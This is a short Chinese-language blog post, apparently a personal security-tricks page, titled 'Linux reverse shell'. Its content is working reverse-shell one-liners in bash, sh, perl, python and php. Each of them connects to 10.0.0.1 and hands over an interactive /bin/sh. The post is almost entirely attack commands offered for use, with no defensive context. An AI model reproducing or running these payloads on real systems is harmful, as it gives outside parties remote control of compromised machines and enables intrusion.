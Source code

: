 ```yaml
---
layout: post
title: Linux 反弹 SHELL 
comments: false
description: ""
keywords: "Tricks"
---
```


实践几个常用的，分别用bash/sh，perl，python，php来实现；

```
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

GIF：

![Linux-1.gif](/assets/images/2016-11-17/2628359055.gif)


[1]: https://www.bodkin.ren/usr/uploads/2017/12/2628359055.gif